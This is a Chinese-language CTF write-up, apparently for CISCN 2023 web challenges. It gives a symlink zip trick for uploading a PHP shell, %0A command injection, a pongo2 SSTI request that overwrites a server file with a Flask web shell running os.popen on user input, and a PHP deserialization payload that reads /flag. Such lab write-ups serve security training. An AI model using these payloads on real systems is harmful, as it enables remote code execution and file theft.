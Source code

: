
# web
### unzip

上传一个指向 /var/www/html 的软连接 root.zip
```shell
ln -s /var/www/html root;zip -y root.zip root
```


上传一个指向 root/shell.php 的软连接
```shell
mkdir root;nano root/shell.php;zip -ry shell.zip root/
```

访问url+shell.php

### dumpit

访问url,得到提示

> use ?db=&table_2_query= or ?db=&table_2_dump= to view the tables! etc:?db=ctf&table_2_query=flag1

给的参数分两种

1. ?db=&table_2_query= 指定数据库和表查询,存在sql注入
2. ?db=&table_2_dump= 根据db和dump参数生成dumplog文档

sql注入发现没有flag

参数存在 `%00` 时会报错



猜测命令执行,使用 %0A换行绕过,执行多条命令

### BackendService

---

### go_session
#go 
#SSTI 

pongo2的ssti,语法与django一致,使用gin框架上传文件覆盖flask服务

```
{{c.SaveUploadedFile(c.FormFile("file"),"/app/server.py")}}
```

获取表单名为file的文件保存到/app/server.py这个路径
但是不能存在",因为有html编码
Context.HandlerName()

> HandlerName 返回主处理程序的名称。例如，如果处理程序是“handleGetUsers()”，此函数将返回“main.handleGetUsers”。
> 配合过滤器last获取到最后一个字符串
> 
> Context.Request.Referer()
> 返回header里的Referer的值
```
{{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}
```


构造一个上传表单
```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}} HTTP/1.1
Host: node1.anna.nssctf.cn:28311
Referer: /app/server.py
Content-Length: 426
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.195.3.12:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8ALIn5Z2C3VlBqND
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session-name=MTY4NTc5Mjc3OXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXxLpnBBgvTJ3SvEgKjI7S0g36QPYe_S4TYV_epZAUggJA==
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.195.3.12:88/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8ALIn5Z2C3VlBqND
Content-Disposition: form-data; name="n"; filename="1.py"
Content-Type: text/plain

from flask import *
import os
app = Flask(__name__)


@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundary8ALIn5Z2C3VlBqND--

```

### DeserBug
#java
```java
public class Testapp {
    public static void main(String[] args) {
        HttpUtil.createServer(8888).addAction("/", request, response -> {
            String result;
            String bugstr = request.getParam("bugstr");
            if (bugstr == null) {
                response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
            }
            try {
                byte[] decode = Base64.getDecoder().decode(bugstr);
                ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
                Object object = inputStream.readObject();
                result = object.toString();
            } catch (Exception e) {
                Myexpect myexpect = new Myexpect();
                myexpect.setTypeparam(new Class[]{String.class});
                myexpect.setTypearg(new String[]{e.toString()});
                myexpect.setTargetclass(e.getClass());
                try {
                    result = myexpect.getAnyexcept().toString();
                } catch (Exception ex) {
                    result = ex.toString();
                }
            }
            response.write(result, ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}
```
接收`bugstr`参数进行反序列化

### [CISCN 2023 华北]ez_date
#hash
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
    public function __wakeup()
    {
        if(is_array($this->a)||is_array($this->b)){
            die('no array');
        }
        //弱比较  1与'1'比较
        if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            $content=date($this->file);
            $uuid=uniqid().'.txt';
            file_put_contents($uuid,$content);
            $data=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($uuid));
            echo file_get_contents($data);
        }
        else{
            die();
        }
    }
}

unserialize(base64_decode($_GET['code']));
```

```php
<?php  
class date{  
public $a;  
public $b;  
public $file;  
}  
$a=new date();  
$a->a=1;  
$a->b='1';  
$a->file='/f\l\a\g';  
echo base64_encode(serialize($a));  
?>
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   12:58